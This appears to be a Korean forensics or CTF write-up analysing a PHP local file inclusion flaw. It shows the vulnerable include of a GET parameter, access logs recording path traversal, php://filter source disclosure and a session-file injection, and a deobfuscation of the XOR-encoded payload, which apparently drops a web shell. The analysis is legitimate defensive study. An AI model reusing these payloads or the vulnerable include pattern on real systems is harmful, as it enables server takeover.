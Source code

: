 ```php
<?php
    if($level[$_SESSION['level']] !== "admin") { die("Only Admin !"); }
    if(isset($_GET['page'])){
    include $_GET['page'];
    }else{
?>
    <li><a href="./?page=users.php">User List</a></li>
    <li><a href="./?page=memo.php">Session Memo</a></li>
<?php
    }
?>
```

해당 취약점으로 접근하게 되는 포인트는 `/?page=memo.php, /?page=users.php`로 보이며 이 둘에 대한 로그를 확인해야한다.

```log
172.17.0.1 - - [02/Jun/2020:09:53:33 +0000] "GET /admin/?page=../../../../../etc/passwd HTTP/1.1" 200 1171 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
172.17.0.1 - - [02/Jun/2020:09:53:43 +0000] "GET /admin/?page=php://filter/convert.base64-encode/resource=index.php HTTP/1.1" 200 1554 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
172.17.0.1 - - [02/Jun/2020:09:54:44 +0000] "GET /admin/?page=php://filter/convert.base64-encode/resource=memo.php HTTP/1.1" 200 1185 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
172.17.0.1 - - [02/Jun/2020:09:55:16 +0000] "GET /admin/?page=memo.php&memo=%3C?php%20function%20m($l,$T=0){$K=date(%27Y-m-d%27);$_=strlen($l);$__=strlen($K);for($i=0;$i%3C$_;$i%2b%2b){for($j=0;$j%3C$__;%20$j%2b%2b){if($T){$l[$i]=$K[$j]^$l[$i];}else{$l[$i]=$l[$i]^$K[$j];}}}return%20$l;}%20m(%27bmha[tqp[gkjpajpw%27)(m(%27%2brev%2bsss%2blpih%2bqthke`w%2bmiecaw*tlt%27),m(%278;tlt$lae`av,%26LPPT%2b5*5$040$Jkp$Bkqj`%26-?w}wpai,%20[CAP_%26g%26Y-?%27));%20?%3E HTTP/1.1" 200 1098 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
172.17.0.1 - - [02/Jun/2020:09:55:39 +0000] "GET /admin/?page=/var/lib/php/sessions/sess_ag4l8a5tbv8bkgqe9b9ull5732 HTTP/1.1" 200 735 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
```

Level 1에서 `config.php` 소스 코드 추출을 위한 방법으로 LFI를 사용하였으며 이후 길고 복잡해보이는 페이로드가 존재하기에 이를 분석해도록 한다.

```php
<?php
function m($l, $T = 0) {
    $K = date('Y-m-d');
    $_ = strlen($l);
    $__ = strlen($K);
    for ($i = 0; $i < $_; $i++) {
        for ($j = 0; $j < $__; $j++) {
            if ($T) {
                $l[$i] = $K[$j] ^ $l[$i];
            } else {
                $l[$i] = $l[$i] ^ $K[$j];
            }
        }
    }
    return $l;
}
m('bmha[tqp[gkjpajpw')
    (m('+rev+sss+lpih+qthke`w+miecaw*tlt'),
        m('8;tlt$lae`av,&LPPT+5*5$040$Jkp$Bkqj`&-?w}wpai, [CAP_&g&Y-?')); 
?>
```
